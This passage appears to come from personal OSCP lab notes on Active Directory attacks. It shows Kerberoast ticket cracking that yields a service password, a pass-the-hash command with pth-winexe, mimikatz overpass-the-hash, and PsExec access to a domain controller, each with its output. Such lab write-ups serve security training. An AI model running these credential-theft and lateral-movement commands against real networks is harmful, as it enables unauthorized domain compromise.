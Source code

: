 ```powershell
```

Now to crack service tickets to find clear-text passwords for service accounts

```sh
~/kerberoast(master*) » python3 tgsrepcrack.py rockyou-20.txt ~/OSCP-excercises/1-40a50000-offsec@HTTP\~CorpWebServer.corp.com-CORP.COM.kirbi                              omar2535@kali


USE HASHCAT, IT'S HELLA FASTER!!


Cracking 1 tickets...
found password for ticket 0: Qwerty09!  File: /home/omar2535/OSCP-excercises/1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
Successfully cracked all tickets
```

### Pass the Hash

Once the NTLM hash is retrieved, we can construct a pass the hash attack to elevate our priveleges using NTLM authentication.
For example, if our NTLM hash was `2892d26cdf84d7a70e2eb3b9f05c425e`, then our command to pass the hash would be 
```sh
# the following command will launch a rdesktop with that user's hash
# the aad3b435b51404eeaad3b435b51404ee part after the userid means "no password"
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.194.10 cmd 

E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.15]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

### Overpass the hash

We can bypass NTLM authentication and get a TGT by passing the hash within mimikats like so:

```sh
mimikatz # sekurlsa::pth /user:jeff_admin /domain:corp.com /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
```

and a powershell is spawned. To check our kerberos tickets:

```powershell
> klist
```

Now we can log into the domain controller using psexec like so:

```powershell
PS C:\Tools\active_directory> .\PsExec.exe \\dc01 cmd.exe
```
